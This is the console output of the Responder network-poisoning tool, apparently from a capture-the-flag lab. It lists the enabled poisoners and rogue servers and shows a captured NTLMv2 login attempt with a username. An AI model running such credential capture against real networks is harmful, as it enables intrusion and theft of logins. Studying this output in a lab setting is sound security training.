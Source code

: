 ```shell

    Author: Laurent Gaffie (laurent.gaffie@gmail.com)
    To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [ON]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.22]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-WCHKE328QTF]
    Responder Domain Name      [DAVC.LOCAL]
    Responder DCE-RPC Port     [47660]
[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[Analyze mode: ICMP] You can ICMP Redirect on this network.
[Analyze mode: ICMP] This workstation (10.10.14.22) is not on the same subnet than the DNS server (192.168.135.2).
[Analyze mode: ICMP] Use `python tools/Icmp-Redirect.py` for more details.

[+] Listening for events...

[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
```